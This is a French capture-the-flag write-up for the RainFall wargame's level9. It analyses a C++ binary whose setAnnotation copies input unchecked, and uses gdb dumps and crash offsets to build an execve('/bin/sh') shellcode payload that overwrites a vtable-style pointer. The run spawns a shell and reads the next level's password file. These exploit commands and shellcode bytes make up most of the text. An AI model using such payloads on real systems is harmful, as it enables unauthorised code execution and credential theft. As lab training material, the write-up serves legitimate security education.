 # level 9
Voici une explication détaillée de chacune des parties du programme C++:

## Fonction main
La fonction principale du programme commence par vérifier si au moins un argument a été passé en ligne de commande (en excluant le nom du programme lui-même). Si ce n'est pas le cas, elle appelle _exit(1).

## Allocation et Initialisation des Objets N
Deux objets de type N sont créés et initialisés :

- Premier objet initialisé avec une valeur de 5.
- Deuxième objet initialisé avec une valeur de 6.

Après leur création, la fonction setAnnotation est appelée sur le premier objet this en passant le premier argument de ligne de commande (argv[1]).

Cette méthode copie une chaîne de caractères dans l'objet, en commençant juste après le début de l'objet (à l'adresse this + 4). La longueur de la chaîne est déterminée par strlen, et il n'y a aucune vérification pour prévenir un dépassement de la taille allouée pour l'objet, ce qui représente une vulnérabilité de débordement de tampon.

Enfin la methode publique operator+ de l'objet1 est appelee avec l'objet2, le retour du programme est donc 11.

## Detail de l'exploit

La vulnérabilité ici est l'utilisation non sécurisée de memcpy dans setAnnotation.
Nous allons mettre un breakpoint apres setAnnotation dans gdb et utiliser un script python qui ecris "aaaabbbb....YYYYZZZZ" dans la sortie. Ce qui nous permettra de voir ou nous pourrons ecraser les adresses de retour, et reorienter le code.

```
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax <-------------------------------------------
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
```

```
Starting program: /home/user/level9/level9 $(python /tmp/script.py)

Breakpoint 1, 0x0804867c in main ()
(gdb) i r
eax            0x804a00c        134520844
ecx            0x5a5a5a5a       1515870810
edx            0x804a0dc        134521052
ebx            0x804a078        134520952
esp            0xbffff640       0xbffff640
ebp            0xbffff668       0xbffff668
esi            0x0      0
edi            0x0      0
eip            0x804867c        0x804867c <main+136>
eflags         0x200283 [ CF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51

(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) i r
eax            0x42424242       1111638594
ecx            0x5a5a5a5a       1515870810
```

```
./level9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
level9@RainFall:~$ dmesg | grep segfault
[52806.555838] level9[11797]: segfault at 62626262 ip 08048682 sp bffff650 error 4 in level9[8048000+1000]
```

Le programme segfault a l'adresse 62626262 (bbbb), l'offset est donc de 128.
Nous n'avons plus qu'a trouver l'adresse du buffer, injecter notre shellcode, et sauter au debut du buffer.

Testons dans gdb :
```
(gdb) info functions
0x0804870e  N::setAnnotation(char*)

(gdb) disas 0x0804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:     push   %ebp
   0x0804870f <+1>:     mov    %esp,%ebp
   0x08048711 <+3>:     sub    $0x18,%esp
   0x08048714 <+6>:     mov    0xc(%ebp),%eax
   0x08048717 <+9>:     mov    %eax,(%esp)
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    0x8(%ebp),%edx
   0x08048722 <+20>:    add    $0x4,%edx
   0x08048725 <+23>:    mov    %eax,0x8(%esp)
   0x08048729 <+27>:    mov    0xc(%ebp),%eax
   0x0804872c <+30>:    mov    %eax,0x4(%esp)
   0x08048730 <+34>:    mov    %edx,(%esp)
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:    leave                      <=== break ici
   0x08048739 <+43>:    ret

   (gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

   (gdb) x/100x $eax - 100
    0x8049fa8:      0x00000000      0x00000000      0x00000000      0x00000000
    0x8049fb8:      0x00000000      0x00000000      0x00000000      0x00000000
    0x8049fc8:      0x00000000      0x00000000      0x00000000      0x00000000
    0x8049fd8:      0x00000000      0x00000000      0x00000000      0x00000000
    0x8049fe8:      0x00000000      0x00000000      0x00000000      0x00000000
    0x8049ff8:      0x00000000      0x00000000      0x00000000      0x00000071
    0x804a008:      0x08048848      0x41414141      0x42424242      0x43434343  <=== buffer ici
    0x804a018:      0x44444444      0x45454545      0x46464646      0x47474747
    0x804a028:      0x48484848      0x49494949      0x4a4a4a4a      0x4b4b4b4b
    0x804a038:      0x4c4c4c4c      0x4d4d4d4d      0x4e4e4e4e      0x4f4f4f4f
    0x804a048:      0x50505050      0x51515151      0x52525252      0x53535353
    0x804a058:      0x54545454      0x55555555      0x56565656      0x57575757
    0x804a068:      0x58585858      0x59595959      0x5a5a5a5a      0x61616161
```

```
level9@RainFall:~$ /home/user/level9/level9 $(python -c 'print("\x90" * 30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A" * (108 - 30 - 24) + "\x18\xa0\x04\x08")')
Segmentation fault (core dumped)

[54510.788758] level9[11928]: segfault at 90909090 ip 90909090 sp bffff67c error 14
```

Le programme tombe dans le nopsled, mais segfault a nouveau, nous allons a l'adresse du segfault, donner l'adresse du shellcode a nouveau pour resauter une nouvelle fois dedans.

Apres tests et alignements :

```
level9@RainFall:~$ /home/user/level9/level9 $(python -c 'print("\x18\xa0\x04\x08" + "\x90" * 26 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A" * (108 - 30 - 24) + "\x0c\xa0\x04\x08")')

$ whoami
bonus0

$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

